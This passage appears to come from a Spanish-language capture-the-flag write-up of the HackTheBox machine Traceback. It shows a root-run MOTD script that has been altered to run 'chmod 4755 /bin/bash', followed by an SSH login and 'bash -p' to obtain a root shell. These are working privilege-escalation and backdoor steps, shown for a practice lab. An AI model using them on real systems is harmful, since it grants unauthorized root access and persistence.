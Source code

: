 ```bash
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"

chmod 4755 /bin/bash
sysadmin@traceback:/etc/update-motd.d$
```

Por lo tanto, si nos volvemos a conectar a través de SSH como el usuario **webadmin** debería de asignar permisos SUID a la `/bin/bash`.

```bash
❯ ssh webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Feb  5 21:05:47 2022 from 10.10.14.27
-bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
-bash-4.4$
```

La `/bin/bash` ya tiene permisos SUID, por lo tanto, ya podemos convertirnos en **root**:

```bash
-bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).
